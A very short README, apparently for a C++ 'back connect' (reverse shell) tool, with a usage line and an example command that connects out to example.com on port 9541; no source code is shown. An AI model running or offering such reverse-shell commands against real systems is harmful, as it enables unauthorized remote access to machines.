 # Small-back-connect
A c++ back connect 
# Usage
./binary_name server port
example:
./a.out example.com 9541
